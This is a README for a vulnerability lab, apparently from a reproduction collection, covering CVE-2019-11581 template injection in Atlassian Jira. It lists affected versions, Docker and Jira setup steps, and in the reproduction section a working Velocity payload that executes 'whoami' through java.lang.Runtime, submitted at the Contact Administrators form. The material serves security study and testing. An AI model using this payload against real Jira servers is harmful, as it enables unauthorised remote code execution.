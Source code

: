# Atlassian Jira Template Injection (CVE-2019-11581)

[中文版本(Chinese version)](README.zh-cn.md)

Atlassian Jira is a widely used project and issue tracking tool in enterprises, commonly applied in defect tracking, customer service, requirements collection, process approval, task tracking, project tracking, and agile management. A template injection vulnerability was discovered in multiple versions that allows remote code execution.

Affected versions include:

- 4.4.x
- 5.x.x
- 6.x.x
- 7.0.x - 7.13.x (Fixed in 7.6.14, 7.13.5)
- 8.0.x - 8.2.x (Fixed in 8.0.3, 8.1.2, 8.2.3)

References:

- <https://confluence.atlassian.com/jira/jira-security-advisory-2019-07-10-973486595.html>
- <https://jira.atlassian.com/browse/JRASERVER-69532>
- <https://mp.weixin.qq.com/s/d2yvSyRZXpZrPcAkMqArsw>

## Environment Setup

Execute the following command to start Jira Server 8.1.0:

```
docker compose up -d
```

After the server starts, visit `http://your-ip:8080` to begin the installation process:

1. Switch to your preferred language
2. Choose "Set it up for me" (first option)
3. Apply for a Jira Server test license from Atlassian (do not select Data Center or Addons)
4. Complete the installation process

Note: Installation may fail or take longer on machines with limited memory. It's recommended to use a machine with at least 4GB of RAM.

![](7.png)

Add SMTP mail server at `/secure/admin/AddSmtpMailServer!default.jspa`:

![](8.png)

Enable "Contact Administrators Form" in System Settings at `/secure/admin/ViewApplicationProperties.jspa`:

![](9.png)

Create a sample project to complete the setup.

## Vulnerability Reproduction

The PoC is similar to CVE-2019-3396. You can use the following payload:

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
```

You can either:

1. Run `poc.py`, or
2. Submit the PoC directly at `/secure/ContactAdministrators!default.jspa`

![](11.png)

![](12.png)

If you don't see any data in smtpd, check the email queue at `/secure/admin/MailQueueAdmin!default.jspa`:

![](13.png)
